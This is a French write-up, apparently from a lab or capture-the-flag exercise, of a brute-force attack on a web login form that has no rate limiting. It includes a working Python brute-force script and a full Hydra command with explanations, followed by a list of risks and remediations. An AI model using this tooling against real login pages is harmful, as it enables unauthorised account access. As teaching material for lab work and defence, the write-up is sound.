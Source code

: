 ## Phase 1 : Découverte de la faille

### Analyse initiale
Lors de l'analyse de la page de connexion, j'ai remarqué qu'il était possible de tester des combinaisons de noms d'utilisateur et de mots de passe sans qu'il y ait de délai entre les tentatives. Cela signifie qu'il n'y avait aucune protection contre les attaques par force brute.

J'ai commencé par tester un nom d'utilisateur basique, comme `admin`, qui est souvent utilisé par défaut dans de nombreuses applications web.

### Tentative avec un script Python
J'ai d'abord écrit un script Python pour tester les mots de passe les plus courants. Cependant, cette méthode s'est avérée trop lente, car chaque requête était exécutée de manière séquentielle. Voici un extrait du script utilisé :

```python
import requests

url = "http://IP_ADDR/index.php"
username = "admin"
password_file = "path/to/passwd.txt"

def try_password(username, password):
    params = {
        "page": "signin",
        "username": username,
        "password": password,
        "Login": "Login"
    }
    response = requests.get(url, params=params)
    if "flag" in response.text:
        print(f"[+] Mot de passe trouvé : {password}")
        return True
    return False

with open(password_file, "r") as file:
    for line in file:
        password = line.strip()
        if try_password(username, password):
            break
```

Bien que fonctionnel, ce script était trop lent pour tester efficacement une grande liste de mots de passe.

---

## Phase 2 : Exploitation avec Hydra

Pour accélérer le processus, j'ai utilisé **Hydra**, un outil spécialisé dans les attaques par force brute. Voici la commande utilisée :

```bash
hydra -l admin -P path/to/passwd.txt IP_ADDR http-get-form "/index.php:page=signin&username=^USER^&password=^PASS^&Login=Login:images/WrongAnswer.gif"
```

### Explications de la commande :
- **`-l admin`** : Spécifie le nom d'utilisateur à tester (`admin`).
- **`-P path/to/passwd.txt`** : Spécifie le fichier contenant les 10 000 mots de passe les plus utilisés.
- **`IP_ADDR`** : Adresse IP du serveur cible.
- **`http-get-form`** : Indique que Hydra doit brute-forcer un formulaire HTML via une requête GET.
- **`/index.php:page=signin&username=^USER^&password=^PASS^&Login=Login`** : Définit les paramètres du formulaire. `^USER^` et `^PASS^` sont remplacés par Hydra avec les noms d'utilisateur et mots de passe.
- **`images/WrongAnswer.gif`** : Hydra considère une tentative comme incorrecte si la réponse contient cette chaîne.

### Résultat :
En utilisant Hydra, j'ai trouvé le mot de passe correct très rapidement, car il se trouvait dans le top 30 des mots de passe les plus utilisés. L'absence de délai entre les tentatives a permis de tester les mots de passe à une vitesse élevée.

---

## Phase 3 : Conséquences possibles

### Risques liés à cette faille
1. **Accès non autorisé** :
   - Un attaquant peut accéder au compte administrateur ou à d'autres comptes sensibles en utilisant une attaque par force brute.

2. **Compromission des données** :
   - Une fois connecté, un attaquant peut accéder à des informations sensibles, modifier des données ou compromettre l'intégrité du système.

3. **Escalade de privilèges** :
   - Si le compte administrateur est compromis, l'attaquant peut obtenir un contrôle total sur l'application.

4. **Attaques ultérieures** :
   - L'attaquant peut utiliser l'accès obtenu pour lancer d'autres attaques, comme l'installation de backdoors ou l'exfiltration de données.

---

## Phase 4 : Comment corriger la faille

### 1. **Implémenter un délai entre les tentatives**
- Ajoutez un délai (par exemple, 1 seconde) entre chaque tentative de connexion pour ralentir les attaques par force brute.

### 2. **Limiter le nombre de tentatives**
- Bloquez l'accès à un compte après un certain nombre de tentatives échouées (par exemple, 5 tentatives).

### 3. **Utiliser un CAPTCHA**
- Ajoutez un CAPTCHA après plusieurs tentatives échouées pour empêcher les attaques automatisées.

### 4. **Utiliser des mots de passe forts**
- Forcez les utilisateurs à choisir des mots de passe complexes et uniques.

### 5. **Surveiller les tentatives de connexion**
- Implémentez une journalisation des tentatives de connexion et alertez les administrateurs en cas d'activité suspecte.

### 6. **Configurer un système de verrouillage IP**
- Bloquez temporairement les adresses IP qui effectuent un grand nombre de tentatives échouées.

---

## Conclusion

Cette faille montre l'importance de protéger les formulaires de connexion contre les attaques par force brute. En implémentant des mécanismes de sécurité comme des délais, des limites de tentatives, et des CAPTCHAs, il est possible de réduire considérablement les risques associés à ce type d'attaque.